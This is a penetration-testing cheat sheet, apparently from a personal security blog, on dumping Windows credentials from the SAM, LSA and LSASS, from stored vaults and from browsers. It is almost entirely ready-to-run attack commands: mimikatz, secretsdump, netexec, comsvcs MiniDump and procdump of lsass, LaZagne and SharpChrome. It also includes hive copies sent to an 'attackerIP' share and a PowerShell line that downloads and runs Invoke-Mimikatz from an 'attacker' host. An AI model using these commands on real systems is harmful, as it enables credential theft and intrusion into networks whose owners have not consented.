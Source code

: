 ```yaml
---
title: "CheatSheet - Windows Passwords"
author: Nasrallah
description: ""
date: 2025-06-29 07:00:00 +0000
categories : [CheatSheet]
tags: [CheatSheet, windows]
img_path: /assets/img/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## **SAM**

SAM (Security Account Manager) is a database file in Windows that stores local user account credentials, including password hashes, and is used during the local authentication process.

```shell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

```bash
reg.py domain.com/user:'Password123'@10.10.10.10 save -keyName 'HKLM\SAM' -o '\\attackerIP\share'
reg.py domain.com/user:'Password123'@10.10.10.10 save -keyName 'HKLM\SYSTEM' -o '\\attackerIP\share'
reg.py domain.com/user:'Password123'@10.10.10.10 save -keyName 'HKLM\SECURITY' -o '\\attackerIP\share'
```

We use `secretsdump` from `Impacket` to extract the password hashes locally.

```bash
python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Dump hashes remotely with [secretsdump](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets)

```bash
secretsdump.py administrator:Password123@10.10.10.10
```

Dump with [netexec](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-sam)

```bash
nxc smb 10.10.10.10 -u administrator -p Password123 --sam
```

With mimikatz.

```bash
mimikatz.exe "privilege::debug" "lsadump::sam" exit
```

## **LSA**

**LSA** (Local Security Authority) is a Windows component that handles authentication, security policies, and stores secrets like service account passwords and cached credentials.

```bash
nxc smb 10.10.10.10 -u administrator -p Password123 --lsa
```

```bash
mimikatz.exe "privilege::debug" "lsadump::secrets" exit
```

## **LSASS**

**LSASS** (Local Security Authority Subsystem Service) is a Windows process responsible for enforcing security policies, handling logins, password changes, and generating access tokens. It stores live credentials in memory (e.g., passwords, hashes, tickets) for logged-in users

### Automated

```bash
nxc smb 10.10.10.10 -u administrator -p Password123 -M lsassy
```

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Manually

#### Creating dump file

Using GUI

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

Using CLI

Identify `lsass.exe` PID

```bash
tasklist /fi "imagename eq lsass.exe"
Get-Process lsass
```

Create dump file

```shell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 668 C:\lsasspower.dmp full
procdump -accepteula -ma lsass lsass.dmp
```

Using `mimikatz`

```bash
mimikatz.exe "sekurlsa::minidump lsass.dmp" exit
```

#### Extracting secretes

Extract credentials with [pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz lsa minidump ./lsass.dmp
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://attacker/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## **Stored credentials**

```shell
cmdkey /list
```

```bash
Lazagne.exe
mimikatz.exe "privilege::debug" "vault::cred" exit
mimikatz.exe "privilege::debug" "sekurlsa::credman" exit
```

## **Browser Passwords**

```bash
Lazagne.exe
```

```shell
.\SharpChrome.exe logins /unprotect
```

### Misc

Search for passwords in smb shares.

```shell
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

## **References**

<https://www.thehacker.recipes>

<https://www.netexec.wiki/>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
